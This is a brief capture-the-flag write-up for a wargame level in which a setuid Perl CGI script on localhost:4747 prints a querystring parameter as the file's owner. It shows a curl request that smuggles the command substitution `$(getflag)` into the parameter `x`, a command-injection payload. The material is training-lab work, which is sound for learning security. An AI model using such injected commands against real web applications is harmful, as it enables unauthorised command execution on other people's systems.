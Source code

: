 # Level04
## Step by step
- In the user `level04` home directory, there is a file
  ```bash
  > ls -la
  -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
  ```
- It a program in perl that listen on port localhost:4747 and run a CGI that take a querystring `x` in parameter and print it as the owner of the file, in this case `flag04`
- Lets send a requet to locahost:4747 woth a querystring x.
  ``` bash
  > curl http://localhost:4747/?x='$(getflag)'
  Check flag.Here is your token : XXX
  ```
